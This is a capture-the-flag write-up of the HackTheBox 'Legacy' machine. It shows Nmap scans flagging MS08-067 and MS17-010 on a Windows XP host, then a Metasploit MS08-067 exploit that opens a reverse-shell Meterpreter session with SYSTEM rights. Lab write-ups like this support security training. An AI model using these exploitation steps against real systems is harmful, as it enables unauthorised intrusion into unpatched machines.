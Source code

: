 # Hackthebox Legacy


Before we start I always reset the box, it is often that services have crashed or behaves in unintended ways after others have exploited them. And I do not want any spoilers that may have been left by others on the box.


## Recon

We perform our initial enumeration of the box using Nmap.

```
# Nmap 7.70 scan initiated Sun Oct 21 11:12:32 2018 as: nmap -v -sV -oA legacy_initial 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up (0.038s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct 21 11:12:44 2018 -- 1 IP address (1 host up) scanned in 11.84 seconds
```

At he same time we start a more extensive scan scanning all tcp ports and services. This time this did not result in any additional findings.

We see that it is an old Windows XP box with SMB exposed. This gets me thinking of the good old ms08-067 exploit.

Let's do a vulnscan using Nmap to see if it is vulnerable

```
Nmap scan report for 10.10.10.4
Host is up (0.037s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary                                                                                                    
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

NSE: Script Post-scanning.
Initiating NSE at 11:18
Completed NSE at 11:18, 0.00s elapsed
Initiating NSE at 11:18
Completed NSE at 11:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 16.62 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```

Bingo!

## Initial Compromise

Let's use Metasploit to see if we can get a quick win.

```
msf > search ms08-067

Matching Modules
================

   Name                                 Disclosure Date  Rank   Description
   ----                                 ---------------  ----   -----------
   exploit/windows/smb/ms08_067_netapi  2008-10-28       great  MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

```
msf exploit(windows/smb/ms08_067_netapi) > exploit 

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:Unknown
[*] 10.10.10.4:445 - We could not detect the language pack, defaulting to English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (179779 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.4:1031) at 2018-10-21 11:27:11 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

As the service runs as system we get a system shell.

This was a quick one.
